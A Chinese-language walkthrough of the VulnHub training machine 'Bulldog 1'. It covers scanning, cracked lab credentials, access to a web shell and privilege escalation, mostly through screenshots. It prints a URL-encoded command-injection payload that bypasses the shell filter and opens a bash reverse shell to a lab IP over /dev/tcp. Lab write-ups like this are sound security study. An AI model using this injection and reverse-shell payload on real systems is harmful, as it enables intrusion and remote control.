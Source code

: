 +++
title = '0x020 Bulldog 1 '
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



开机改网卡

# 端口扫描

![](/vulnhub_img/WEBRESOURCEb1af1bfc04642d04a8b1255a7ea5659c截图.png)

![](/vulnhub_img/WEBRESOURCE75ec00e2e54007ea720d139649796fcb截图.png)

# WEB渗透

8080和80端口一样的

![](/vulnhub_img/WEBRESOURCEd72212dbd9082666b98fc4bcb6e0b4b7截图.png)

发现隐藏信息，疑似账号密码：

![](/vulnhub_img/WEBRESOURCE8ad0d9336fe075a36686c5a354658e3a截图.png)

hashcat跑半天，破解hash还是建议使用在线的：

![](/vulnhub_img/WEBRESOURCE562c0da80a75385e3bbb3d23bed601b8截图.png)

破解出的密码如下：

[nick@bulldogindustries.com](http://nick@bulldogindustries.com)

bulldog

sarah@bulldogindustries.com

bulldoglover

登录后，成功进去webhell

![](/vulnhub_img/WEBRESOURCEe7be29680457b2caa0f774bf4c6e33eb截图.png)

阻止危险shell，那我想的就是绕过了：

![](/vulnhub_img/WEBRESOURCEfe337efad31bbc4536cbdf3a0992fd37截图.png)

记得url编码：

ls|%62%61%73%68%20%2d%63%20%27%2f%62%69%6e%2f%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%30%2e%31%32%38%2f%38%38%38%38%20%30%3e%26%31%27

![](/vulnhub_img/WEBRESOURCE35e0246221e6ebaeff9170af631b425b截图.png)

# 提权

![](/vulnhub_img/WEBRESOURCE43f2f829706792a67ebeda8cd680cfef截图.png)

没什么好说的，前面靶场遇到过的：

![](/vulnhub_img/WEBRESOURCE158237df7ed2eb7c97cfdc7558d8355f截图.png)